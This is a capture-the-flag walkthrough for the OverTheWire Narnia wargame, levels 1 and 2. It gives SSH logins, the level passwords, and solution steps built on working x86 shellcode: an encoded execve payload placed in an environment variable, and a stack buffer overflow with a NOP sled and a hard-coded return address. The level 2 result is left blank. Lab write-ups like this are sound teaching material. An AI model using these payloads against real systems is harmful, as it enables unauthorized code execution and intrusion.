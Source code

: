 ## Level 1
CMD:
```bash
ssh narnia1@narnia.labs.overthewire.org -p 2226
```
Passowrd:
```bash
WDcYUTG5ul
```
Solution:
```bash
cd /narnia
ls
./narnia1
cat narnia1.c
```
Refer: https://shell-storm.org/shellcode/files/shellcode-607.html
```bash
export EGG=$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*100 + b"\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80")')
export EGG=$(python3 -c 'import sys; sys.stdout.buffer.write(b"\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81")')
echo $EGG
./narnia1
```
```bash
whoami
cat /etc/narnia_pass/narnia2
```
Output:
```bash
5agRAXeBdG
```
**Password: 5agRAXeBdG**

## Level 2
CMD:
```bash
ssh narnia2@narnia.labs.overthewire.org -p 2226
```
Passowrd:
```bash
5agRAXeBdG
```
Solution:
```bash
cd /narnia
ls
./narnia2
cat narnia2.c
./narnia2 "$(python3 -c 'import sys; sys.stdout.buffer.write(
    b"\x90" * 100 +  # NOP sled
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"  # Shellcode
    b"\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b"
    b"\xcd\x80\x31\xc0\x40\xcd\x80" +
    b"A" * (132 - 100 - 28) +  # Padding
    b"\x10\xd2\xff\xff"  # Return address near ESP (adjust if needed)
)')"
```
Output:
```bash

```
**Password: **